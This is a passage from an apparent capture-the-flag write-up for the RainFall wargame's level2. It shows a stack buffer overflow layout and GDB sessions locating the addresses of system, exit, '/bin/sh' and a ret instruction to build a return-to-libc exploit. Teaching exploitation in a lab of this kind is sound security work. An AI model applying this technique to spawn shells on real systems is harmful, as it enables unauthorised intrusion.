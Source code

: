 ### Buffer Overflow Impact:

When we provide more than 76 bytes of input:
```
Input: "A" * 80 + "BBBB" + "CCCC"

Memory After Overflow:
EBP+4:  [CCCC]     ← Return address overwritten
EBP+0:  [BBBB]     ← Saved EBP overwritten  
EBP-76: [AAAA...A] ← Buffer filled with A's
```

---

## 🎯 Address Discovery

We need to find specific memory addresses for our exploit. Let's use GDB to locate them:

```bash
level2@RainFall:~$ gdb -q level2
(gdb) break main
Breakpoint 1 at 0x804853f
(gdb) run
Starting program: /home/user/level2/level2 

Breakpoint 1, 0x0804853f in main ()
```

### Finding Critical Addresses:

1. **System Function Address**:
```bash
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
```

2. **Exit Function Address**:
```bash
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
```

3. **"/bin/sh" String Location**:
```bash
(gdb) find &system,+9999999,"/bin/sh"
0xb7f8cc58
1 pattern found.
```

4. **Return Instruction Address**:
```bash
(gdb) disassemble main
Dump of assembler code for function main:
   .
   .
   .
   0x0804854b <+12>:	ret    ← This address: 0x0804854b
End of assembler dump.
```
